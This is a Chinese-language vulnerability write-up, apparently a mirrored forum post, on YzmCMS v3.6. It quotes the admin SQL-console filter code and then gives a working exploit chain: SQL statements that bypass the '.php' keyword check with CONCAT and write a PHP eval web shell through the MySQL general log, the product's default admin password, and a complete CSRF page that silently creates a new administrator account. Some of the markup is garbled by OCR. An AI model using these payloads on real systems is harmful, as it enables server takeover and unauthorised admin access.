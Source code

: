 # YzmCMS v3.6 csrf

> 原文：[https://www.zhihuifly.com/t/topic/3302](https://www.zhihuifly.com/t/topic/3302)

# YzmCMS v3.6 csrf

## 一、漏洞简介

## 二、漏洞影响

YzmCMS v3.6

## 三、复现过程

1、文件位置: /application/admin/controller/sql.class.php第10-42行中：

```
public function init() {  
    if(isset($_POST['sqlstr'])){  
        if(!C('sql_execute')) showmsg('根据系统配置，不允许在线执行SQL命令！', 'stop');  
        $sqlstr = MAGIC_QUOTES_GPC ? stripslashes($_POST['sqlstr']) : $_POST['sqlstr'];  
        $sqlstr = rtrim(trim($sqlstr), ';');  
        $sqls = $_POST['action']=='many' ? explode(';', $sqlstr) : array(0 => $sqlstr);  

        $admin = D('admin');  
        foreach($sqls as $sql){  
10\.             if(stristr($sql, 'outfile')){  
11\.                 $str = '<span class="c-red">ERROR : 检测到非法字符 “outfile”！</span>';  
12\.                 break;  
13\.             }  
14\.             if(stristr($sql, '.php')){  
15\.                 $str = '<span class="c-red">ERROR : 检测到非法字符 “.php” ！</span>';  
16\.                 break;  
17\.             }  
18\.             if(preg_match("/^drop(.*)database/i", $sql)){  
19\.                 $str = '<span class="c-red">ERROR : 不允许删除数据库！</span>';  
20\.                 break;  
21\.             }  
22\.             $result = $admin->query($sql);   
23\.             if($result){  
24\.                 $str = '<span style="color:green">OK : 执行成功！</span>';  
25\.                 if(is_object($result) || is_resource($result)){  
26\.                     $arr = $admin->fetch_all($result);  
27\.                 }                     
28\.             }else{  
29\.                 $str = '<span class="c-red">ERROR : 执行失败！</span>';  
30\.                 break;  
31\.             }                 
32\.         }  
33\.     } 
```

这段函数中对提交的sql参数进行还原处理，然后进行非法字符检测，检测字符是否存在”oufile”、”.php”,匹配是否有删除数据的操作等。

2、如何绕过这种限制？

首页，outfile被禁止，第一时间想到的就是SQL语句利用日志写入文件，但是写入脚本文件”.php”会被检测到非法字符；然后，尝试MySQL中concat函数来连接字符串，拆分’.php’关键词，如 CONCAT("test.","php");最后构造出可以写入文件，绕过非法字符检测的的SQL语句，从而触发代码执行漏洞，控制服务器。

Payload：

```
show variables like '%general%';   #查看配置
set global general_log = on;        #开启general log模式
set global general_log_file =CONCAT("E:\\study\\WWW\\YzmCMS\\test.","php"); 
select '<?php eval($_POST[cmd]);?>';   #写入shell 
```

### 漏洞复现

#### 如何获取后台管理员权限

有两种思路：

思路A：通过默认信息，弱口令登录

默认后台路径：http://www.0-sec.org/admin/index/login.html

管理员默认账号密码均为：yzmcms

思路B：通过CSRF漏洞，诱导管理员访问，自动在后台添加管理员账号。

CSRF漏洞利用代码如下：

```
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">  

<html>  
<head>  
<title>OWASP CRSFTester Demonstration</title>  
</head>  
<body οnlοad="javascript:fireForms()">  
<script language="JavaScript">  
var pauses = new Array( "68" );  

 function pausecomp(millis)  

{  

    var date = new Date();  

    var curDate = null;  

    do { curDate = new Date(); }  

    while(curDate-date < millis);  

}  

function fireForms()  

{  

    var count = 1;  

    var i=0;  

    for(i=0; i<count; i++)  

    {  

        document.forms[i].submit();  

        pausecomp(pauses[i]);  

    }  

}  

</script>  

<H2>OWASP CRSFTester Demonstration</H2>  

<form method=“POST” name=“form0” action=“[http://127.0.0.1:80/admin/admin_manage/add.html](http://127.0.0.1:80/admin/admin_manage/add.html)”>  

<input type=“hidden” name=“adminname” value=“admin”/>  

<input type=“hidden” name=“password” value=“abc123!”/>  

<input type=“hidden” name=“password2” value=“abc123!”/>  

<input type=“hidden” name=“email” value=""/>  

<input type=“hidden” name=“realname” value=""/>  

<input type=“hidden” name=“roleid” value=“1”/>  

<input type=“hidden” name=“dosubmit” value=“1”/>  

</form>  

</body> `</html>` 
```